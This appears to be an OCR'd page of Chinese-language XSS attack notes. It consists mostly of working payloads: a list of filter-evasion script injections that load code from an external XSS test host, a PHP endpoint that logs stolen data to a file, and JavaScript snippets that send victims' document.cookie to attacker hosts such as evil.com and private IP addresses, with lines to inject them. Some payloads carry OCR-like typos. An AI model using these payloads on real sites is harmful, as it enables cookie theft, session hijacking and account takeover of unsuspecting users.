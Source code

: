 ```
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```

## XSS利用

盗取COOKIE

接收cookie代码

xss.php

```php
<?php
   @ini_set('display_errors',1);
  $str = $_GET['joke'];
  $filePath = "joke.php";
  $handler = fopen($filePath, "a");
  fwrite($handler, $str);
	fclose($handler);
?>
```

xss.js

```javascript
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://ip /xss.php?joke='+encodeURIComponent(document.cookie);
```

xss.js

```
var img=document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

### 加载payload

```html
<script src="http://192.168.0.121/xss.js"></script>
<script src="//192.168.0.121/xss.js "></script>
<img onerror=document.body.appendChild(document.createElement('script')).src='//192.168.0.121/xss.js'>
<script>var img=document.createElement("img");img.src="http://10.10.10.151:1234/a?"+escape(document.cookie);</script>  
```
